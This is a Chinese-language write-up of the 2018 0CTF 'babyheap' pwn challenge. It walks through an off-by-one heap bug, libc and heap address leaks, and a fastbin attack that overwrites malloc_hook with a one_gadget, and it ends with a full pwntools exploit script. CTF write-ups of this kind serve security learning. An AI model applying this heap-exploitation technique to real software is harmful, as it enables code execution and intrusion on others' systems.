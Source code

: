 # 2018 0ctf pwn--babyheap

题目四个功能alloc  update  delete  view

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/1.png)

我们利用ida找一下漏洞

alloc函数里

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/2.png)

update函数里（漏洞之处）

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/3.png)

可写的长度多了一位，刚好可以修改下一个chunk头的size。 术语叫  off-by-one

delete函数

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/4.png)

## 利用漏洞思路

​	利用off-by-one的漏洞，泄露出libc_base 和 main_arena地址，求出malloc_hook地址，修改main_arena的内容，指向malloc_hook附近的地方，从而修改malloc_hook内容为shellcode地址，执行alloc函数 = getshell。

### 第一步 泄露出libc_base 和 main_arena

​	申请多个chunk，利用off-by-one的漏洞，update chunk0修改chunk1的size，使其包含两个chunk，即overlap。把chunk1 free掉，这时系统认为chunk1为small chunk，便把它扔到main_arena处，申请与chunk1原来大小的chunk，chunk1的fd，bk的内容就会到了chunk2的fd和bk，因为指针2并没有free掉，view（2）就会出现main_arena的地址。

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/5.png)

chunk3的作用是防止chunk2被‘合并’。

main_arena = 0x7f68ce3a0b78 - 0x58

libc_base = 0x7f68ce3a0b78 - 0x39bb78(我机器的偏移)

heap地址也可以找到

申请chunk4 大小为chunk2，指针4就会和指针2指向同一处，再free chunk1和chunk2，view（4）就会出现chunk1的地址。减去0x50就是heap的地址。

### 第二步 修改malloc_hook的内容

为了修改malloc_hook的内容，由于题目限制最大申请内存为88，main地址处开头都是0x7f，所以我们不能直接修改malloc_hook的内容，我们只能先修改main_arena（注意main_arena 的位置都有 对应chunk的大小）的内容，使它指向malloc_hook附近的位置。

我们先申请一个0x58的chunk，把它free掉

```python
alloc(0x58)
delete(1)
```

这步可以称是 鬼斧神工之作。看上去好像没做什么，实际上很重要，它把main_arena的bk修改了。

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/6.png)

0x000055c05750c140中的 55 便是帮助我们malloc时通过检查的size大小。我们把地址偏移一下，main_arena+37放到chunk2的fd中，注意指针2虽然free掉，但我们还有chunk4。(内存不一定是55，有时是56或什么，多试几次就可以了)

![image](https://github.com/lhc328/pwn/blob/master/picture/20180ctfbabyheap/7.png)

alloc两个chunk，指针2就会指向main_arena+37处，我们就可以修改top chunk

Top Chunk

当一个chunk处于一个arena的最顶部(即最高内存地址处)的时候，就称之为top chunk。该chunk并不属于任何bin，而是在系统当前的所有free chunk(无论那种bin)都无法满足用户请求的内存大小的时候，将此chunk当做一个应急消防员，分配给用户使用。如果top chunk的大小比用户请求的大小要大的话，就将该top chunk分作两部分：1）用户请求的chunk；2）剩余的部分成为新的top chunk。否则，就需要扩展heap或分配新的heap了——在main arena中通过sbrk扩展heap，而在thread arena中通过mmap分配新的heap。

其中要注意的是，为什么分配56字节呢，，，想想是不是还有0x58的chunk，为什么不会分配到它呢，，，，因为0x60时fast chunk，不可拆，，除非分配的刚刚好是0x50-0x58的chunk，就会分给它

所以，当找不到适合的free chunk时，就会找到top chunk，就会分配到 malloc_hook附近，偏移为 -0x30，shellcode由one_gadget 得到，就不多讲了。

修改完malloc_hook后，malloc一下就会getshell了

exp：

```
from pwn import *
import sys

def alloc(size):
	r.recvuntil("Command: ")
	r.sendline("1")
	r.recvuntil("Size: ")
	r.sendline(str(size))

def update(idx,size,content):
	r.recvuntil("Command: ")
	r.sendline("2")
	r.recvuntil("Index: ")
	r.sendline(str(idx))
	r.recvuntil("Size: ")
	r.sendline(str(size))
	r.recvuntil("Content: ")
	r.sendline(content)

def delete(idx):
	r.recvuntil("Command: ")
	r.sendline("3")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def view(idx):
	r.recvuntil("Command: ")
	r.sendline("4")
	r.recvuntil("Index: ")
	r.sendline(str(idx))

def exploit(r):
	alloc(0x48)
	alloc(0x48)
	alloc(0x48)
	#chunk3 meiyou hui  shibai
	alloc(0x48)
	update(0, 0x49, 'a'*0x48 + "\xa1")
	delete(1)
	alloc(0x48)
	view(2)
	r.recvuntil("Chunk[2]: ")
	main_arena = u64(r.recv(8))-0x58
	libc_adr = main_arena-0x39bb20
	print hex(libc_adr)
	alloc(0x48)   # 4 = 2
	delete(1)
	delete(2)
	view(4)
	r.recvuntil("Chunk[4]: ")
	heap = u64(r.recv(8))-0x50
	alloc(0x58)
	delete(1)
	update(4, 8, p64(main_arena + 37))
	alloc(0x48)
	alloc(0x40)
	update(2,0x2c,"\x00"*35+p64(main_arena-0x33))
	alloc(0x20)
	update(5,28,'a'*11 + p64(libc_adr+0x4526a)*2)
	alloc(22)
	r.interactive()
	return

r = process('./babyheap')
print util.proc.pidof(r)
pause()
exploit(r)


```

